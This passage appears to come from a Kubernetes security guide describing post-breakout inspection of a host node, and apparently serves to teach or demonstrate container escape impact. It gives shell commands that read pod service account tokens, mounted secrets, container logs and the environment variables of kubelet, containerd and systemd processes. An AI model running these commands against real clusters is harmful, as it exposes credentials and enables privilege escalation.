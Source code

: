 4. Inspect the running containers virtual file systems under the io.containerd.snapshotter.v1.overlayfs folder:

    ```bash
    ls -lhra /var/lib/containerd/io.containerd.snapshotter.v1.overlayfs
    ```

5. Inspect the mounted volumes and secrets for a particular pod:

    ```bash
    # list mounted volumes
    # Replace $PODID with the UUID of the pod.
    ls -lhra /var/lib/kubelet/pods/$PODID/volumes

    # display the service account token
    # Replace $value with the actual value as present in the filesystem.
    # You can use <TAB> key to auto-fill.
    cat /var/lib/kubelet/pods/$PODID/volumes/kubernetes.io~projected/kube-api-access-$value/token
    ```

6. Inspect the logs for a particular container:

    ```bash
    # list log files for all containers
    ls -lhar /var/log/containers
    # display logs for a particular container, where $CONTAINERID is the filename:
    cat /var/log/containers/{$CONTAINERID}.log
    ```

##### Processes Isolation Breakout

***Inspect all running processes on the host node.***

1. Run the `top` or `ps -aux` commands and look for interesting processes such as `kubelet`, `containerd` and `systemd`.

2. Inspect the environment variables for those privileged processes using the cat command:

    ```bash
    # `$PID` is the ID of the `kubelet`, `containerd` or `systemd` processes
    cat /proc/$PID/environ
    ```
